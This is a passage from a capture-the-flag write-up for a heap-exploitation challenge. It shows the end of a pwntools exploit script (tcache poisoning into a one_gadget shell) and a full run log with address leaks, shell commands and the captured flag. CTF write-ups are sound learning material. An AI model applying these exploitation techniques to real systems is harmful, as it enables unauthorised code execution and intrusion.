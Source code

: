 ```python
payload += p64(one_gadget)  # One gadget


# Trigger the one_gadget
p.sendline(b'1')                    # Call malloc() menu option
p.sendline(str(0x100-8).encode())   # Malloc t-cache pointer (RBP value)
p.sendline(payload)                 # Send payload and ROP the process


# profit
p.sendline(b"id")

p.interactive()
```



###### Running the exploit script

```bash
$ python3 solve.py 
[*] '/chal/garbage-is-easy/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[*] '/chal/garbage-is-easy/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to garbage.hack.fe-ctf.dk on port 1337: Done
[*] Mallocing 0x168 bytes
[*] Overwriting top chunk size with 0xc01
[*] Calling malloc to pad up until HEAP pointer
[*] Heap leak: 0x55b0439e8000
[*] Calling malloc to pad up until Libc pointer
[*] Libc leak: 0x7fbff4902000
[*] Ld leak: 0x7fbff4adf000
[*] Mallocing new chunk to prepare fake free list
[*] Fake free location: 0x55b0439e8600
[*] Buf2 location 0x55b0439e86e0
[*] Buf1 location 0x55b0439e8700
[*] Mallocing 1200 bytes to sort unsorted bin...
[*] PROTECT_PTR res: 0x55b0439e8^0x55b0439e8100 = 0x55b5189ab8e8
[*] Base address: 0x55b041e3e000
[*] Stack pointer: 0x7ffc68f63d10
[*] Switching to interactive mode
How much are you throwing out:
What are you throwing out:
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ cat /flag
flag{t0p_chunk_3x7ensi0n-t0_f4k3_fre3_l1zt&tCh4c3_p0zion!}
```



###### Flag

`flag{t0p_chunk_3x7ensi0n-t0_f4k3_fre3_l1zt&tCh4c3_p0zion!}`

